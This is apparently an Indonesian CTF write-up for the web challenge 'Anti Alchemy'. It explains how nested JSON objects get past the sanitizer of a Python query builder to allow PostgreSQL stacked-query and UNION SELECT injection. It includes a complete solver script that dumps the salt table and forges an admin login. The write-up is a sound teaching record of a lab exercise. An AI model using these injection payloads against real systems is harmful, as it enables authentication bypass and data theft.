

# Anti Alchemy

**Category**: Web  
**Points**: -  
**Difficulty**: -  

## Solution

Diberikan sebuah soal berikut,  
 

Diberikan *source code* *python* dengan beberapa *route* sebagai berikut,  
[](./images/image.png)  

Disini terdapat kerentanan dikarenakan input user dimasukkan ke dalam **query builder** pada fitur **register** dan **view** secara langsung.   



Meskipun sebenarnya *challenge* telah melakukan beberapa validasi, namun validasi tersebut bisa di-*bypass*.  


Kerentanan ditemukan jika *nested object* di-input sebagai argument pada **query builder**. Fungsi **sanitize** pada *challenge* gagal untuk melakukan sanitasi karena input user berupa object, bukan string.  


Jika dilihat pada log, terdapat informasi bahwa *query* yang dijalankan mengalami *error*. Hal tersebut terjadi karena *nested object* yang diinputkan akan diapit oleh karakter (**‘**), dan *value*\-nya juga menggunakan karakter (**‘**). Hal tersebut mengakibatkan *error* pada *query*.  


Karena *challenge* ini menggunakan database **postgresql**, maka kita bisa menggunakan *stacked query* untuk melakukan *injection*. Sebagai contoh, payload berikut bisa digunakan untuk melihat semua data pada tabel users.

 

Teknik serupa juga bisa dijalankan pada endpoint **/api/login**, namun payload yang di-*exploit* tidak ditampilkan pada *response*.  
 
 
 


Jika dilihat kembali pada fungi **login** berikut,

```python
def login(*args, **kwargs):
   payload = kwargs.copy()


   try:
       conn = create_db_conn()
       cur = conn.cursor()
       cur.execute(
           qb.generate(
               {
                   "table": "users",
                   "username": payload["username"],
               }
           )
       )
       row = cur.fetchone()
       if not row:
           return make_resp(401, "Invalid username/password")


       _, username, password_hash = row
       password = payload.pop("password")


       cur.execute(
           qb.generate(
               {
                   "table": "salt",
                   "username": username,
               }
           )
       )
       row = cur.fetchone()
       if not row:
           return make_resp(401, "Invalid username/password")


       _, _, salt = row


       if not check_password_hash(password, salt, password_hash):
           return make_resp(401, "Invalid username/password")


       session.clear()
       session["user"] = username
       return redirect(url_for("index"))


   except Exception as e:
       print(f"Exception: {e}")
       return make_resp(400, "Bad Request")


   finally:
       cur.close()
       conn.close()
```

Maka diketahui bahwa *challenges* melakukan dua kali *query*. *Query* pertama digunakan untuk mendapatkan value *username* dan juga *hashed* password dari database. Kemudian *username* dari *query* pertama akan dijadikan parameter untuk mendapatkan **salt** dari database.

**Salt** tersebut akan digunakan pada fungsi **check\_password\_hash**, yang nantinya akan memanggil fungsi **generate\_pasword\_hash** untuk memvalidasi password yang diinput oleh user sebagai berikut:

```python
def generate_password_hash(password, salt):
   return sha1((salt + password).encode()).hexdigest()

def check_password_hash(password, salt, password_hash):
   return generate_password_hash(password, salt) == password_hash
```


Untuk dapat *login* menjadi user admin, disini kita perlu melakukan attack chain berikut:

1. Login menggunakan low credential **gemastik**.

2. Mendapatkan **salt** dari database, menggunakan endpoint **/api/view**.

3. Membuat *hashed* password menggunakan **salt** dari tahap 2.

4. Melakukan *login* dengan payload **SQL UNION SELECT** sehingga bisa mengontrol username dan *hashed* password dari database.

5. Mengakses halaman **/api/flag** menggunakan *cookie* admin yang didapatkan setelah login.

Berikut *solver script* yang kami buat untuk melakukan automasi pada 4 tahap diatas:

```python
from requests import post, get, session
import sys
from hashlib import sha1

ip = sys.argv[1]
HOST = ip + ":11000"

r = session()

username="gemastik"
password="P@ssw0rd"
data = {
    "username": username,
    "password": password
}

header = {
    "Content-Type": "application/json"
}
r.post(f"http://{HOST}/api/login", headers=header, json=data, allow_redirects=False)

url = f"http://{HOST}/api/view"

data = {
    "title": {
        "": "'/**/;select * from salt;-- -"
    }
}

res = r.post(url, headers=header, json=data, allow_redirects=False)
print(res.json())
salt = (res.json()['data']['rows'][0][-1])
print(salt)

def generate_password_hash(password, salt):
    return sha1((salt + password).encode()).hexdigest()

def check_password_hash(password, salt, password_hash):
    return generate_password_hash(password, salt) == password_hash


passw = generate_password_hash("beluga", salt)

print(passw)
# print(check_password_hash("beluga", salt, passw))

url = f"http://{HOST}/api/login"
data = {
    "username": {
        "": F"'/**/union select 1, 'admin', '{passw}';-- -"
    },
    "password": "beluga"}

res = r.post(url, headers=header, json=data, allow_redirects=False)
res = r.get(f"http://{HOST}/api/flag", headers=header)
print(res.text)
```

Jika solver dijalankan, flag pun didapatkan


